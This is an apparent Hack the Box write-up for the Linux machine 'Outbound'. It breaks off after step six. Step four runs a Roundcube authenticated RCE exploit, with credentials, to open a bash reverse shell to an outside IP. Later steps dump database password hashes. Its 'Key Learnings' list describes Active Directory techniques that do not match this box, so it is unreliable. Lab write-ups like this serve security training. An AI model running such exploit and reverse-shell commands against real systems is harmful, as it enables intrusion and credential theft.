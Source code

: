 # Outbound

**Platform: Hack the Box**

**OS: Linux**

**Diffculty: Easy**


## Table of Contents
- [Key Learnings](#key-learnings)
- [Walkthrough](#walkthrough)
- [Remediation Summary](#remediation-summary)


## Key Learnings
- Familiarize using tools without NTLM authentication. Use tools with only Kerberos authentication
- Learn more about Kerberos authentication on Active Directory
- Learn about Active Directory Recycle bin and the deleting object process with it enabled
- Enumerate and restore deleted user with bloodyAD
- Decrypt DPAPI keys with Impacket's Dpapi.py
- Exfiltrate NTDS.dit and the SYSTEM registry hive and obtain domain hashes with secretsdump


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan

<img width="711" height="290" alt="image" src="https://github.com/user-attachments/assets/5b58b511-79f5-47c5-a6c1-a3365116cf5f" />


2. Nmap shows only SSH and HTTP ports open. Visiting the website automatically redirects us to a mail server at mail.outbound.htb. Enumerate subdomains and do dirbusting.

`ffuf -u http://mail.outbound.htb/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fs 5327`

<img width="696" height="101" alt="image" src="https://github.com/user-attachments/assets/4b6a549c-2b17-4407-aee3-6d91385cbe58" />

3. Found a roundcube webmail server! 

<img width="463" height="404" alt="image" src="https://github.com/user-attachments/assets/c35646fa-5f2e-44ae-87d3-78f3330a4e40" />

4. Googling for Roundcube exploits, we find a PHP Authenticated Remote Code Execution script. Running the script, we confirm we have RCE on the target machine and get a reverse shell

`sudo php /opt/CVE-2025-49113-Roundcube-Authenticated-RCE.php http://mail.outbound.htb/roundcube/ tyler LhKL1o9Nm3X2 'bash -c "bash -i >& /dev/tcp/10.10.14.176/80 0>&1"'`

<img width="847" height="150" alt="image" src="https://github.com/user-attachments/assets/611d0c33-3fb8-41c2-8fed-9c8a5ca30760" />

<img width="637" height="169" alt="image" src="https://github.com/user-attachments/assets/822e624f-cc42-4d67-8415-33b84a40c459" />

5. We find a config file that has a mysql connection string, so we use those credentials to log into mysql



6. In the database, we find a users table which contains password hashes for users jacob, mel, and tyler

<img width="851" height="139" alt="image" src="https://github.com/user-attachments/assets/36264fa2-c49c-4125-814f-ca65c555d405" />

7. 

